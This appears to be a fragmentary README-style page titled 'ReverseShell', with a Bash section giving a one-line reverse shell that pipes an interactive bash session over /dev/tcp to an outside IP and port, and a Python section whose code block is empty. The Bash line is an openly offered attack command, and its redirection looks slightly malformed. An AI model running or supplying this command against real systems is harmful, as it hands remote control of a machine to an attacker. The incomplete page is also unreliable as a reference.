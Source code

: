 # ReverseShell

#### Bash

```
bash -c 'bash -i &>/dev/tcp/8.8.8.8/8888 0>1'
```

#### Python

```

```



